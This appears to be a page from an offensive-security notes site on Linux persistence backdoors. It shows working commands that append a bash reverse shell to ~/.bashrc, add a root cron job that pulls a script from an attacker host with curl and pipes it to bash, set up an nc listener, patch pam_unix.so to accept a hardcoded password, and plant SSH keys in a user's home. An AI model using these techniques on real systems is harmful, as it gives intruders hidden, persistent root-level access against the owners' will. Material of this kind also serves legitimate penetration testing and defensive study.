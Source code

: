 # Backdoors

<figure><img src="../.gitbook/assets/door.gif" alt=""><figcaption></figcaption></figure>

{% hint style="info" %}
<mark style="color:blue;">A backdoor refers to</mark> <mark style="color:blue;">**any method**</mark> <mark style="color:blue;">by which</mark> <mark style="color:blue;">**authorized**</mark> <mark style="color:blue;">and</mark> <mark style="color:blue;">**unauthorized users**</mark> <mark style="color:blue;">are able to get around normal security measures and</mark> <mark style="color:blue;">**gain high level**</mark> <mark style="color:blue;">user access (aka root access) on a computer</mark> <mark style="color:blue;">**system**</mark><mark style="color:blue;">,</mark> <mark style="color:blue;">**network**</mark><mark style="color:blue;">, or</mark> <mark style="color:blue;">**software application**</mark><mark style="color:blue;">.</mark>

<mark style="color:blue;">They are known for being</mark> <mark style="color:blue;">**discreet**</mark><mark style="color:blue;">. Backdoors exist for a select group of people in the know to</mark> <mark style="color:blue;">**gain easy access to a system or application**</mark><mark style="color:blue;">.</mark>
{% endhint %}

## | `PAM backdoor` |

{% hint style="info" %}
<mark style="color:blue;">This backdoor essentially consists of</mark> <mark style="color:blue;">**adding your own password**</mark> <mark style="color:blue;">to the</mark> <mark style="color:blue;">**pam\_unix.so**</mark> <mark style="color:blue;">file</mark>
{% endhint %}

_pam\_unix.so_ file is responsible for **authentication**

![](<../.gitbook/assets/image (10) (1).png>)

_pam\_unix.so_ uses the unix\_verify\_password function to verify to user's supplied password **:**

![we added a new line to our code : if (strcmp(p, "0xMitsurugi") != 0 )](<../.gitbook/assets/image (16).png>)

## | `.bashsrc backdoor` |

{% hint style="info" %}
<mark style="color:blue;">If a user has</mark> <mark style="color:blue;">**bash**</mark> <mark style="color:blue;">as their</mark> <mark style="color:blue;">**login shell**</mark><mark style="color:blue;">, the "</mark><mark style="color:blue;">**.bashrc**</mark><mark style="color:blue;">" file in their home directory is</mark> <mark style="color:blue;">**executed**</mark> <mark style="color:blue;">when an interactive session is launched.</mark>
{% endhint %}

Any user that log in often :

```bash
echo 'bash -i >& /dev/tcp/ip/port 0>&1' >> ~/.bashrc
```

**Put a nc listener**

## | `CronJob backdoor` |

### With a root access

{% hint style="info" %}
_<mark style="color:blue;">cronjobs file -></mark>_ _<mark style="color:blue;">**/etc/cronjob**</mark>_
{% endhint %}

Configure a task where every minute a reverse shell is sent to you. Add this line into our cronjob file :

```
* *     * * *   root    curl http://$attacker_ip:8080/shell | bash
```

Add this to the **shell** file :

```bash
#!/bin/bash
bash -i >& /dev/tcp/$ip/$port 0>&1
```

On the attacker machine :

```bash
nc -nvlp $port
```

## | `SSH Backdoor` |

{% hint style="info" %}
<mark style="color:blue;">Consists in</mark> <mark style="color:blue;">**saving**</mark> <mark style="color:blue;">our</mark> <mark style="color:blue;">**ssh keys**</mark> <mark style="color:blue;">in some</mark> <mark style="color:blue;">**user’s home**</mark> <mark style="color:blue;">directory. Then we can access it via ssh.</mark>
{% endhint %}

#### Generate ssh key

```bash
ssh-keygen
```

#### Copy our key into the user's .ssh directory

```bash
mkdir .ssh 
cp id_rsa .ssh/id_rsa
```
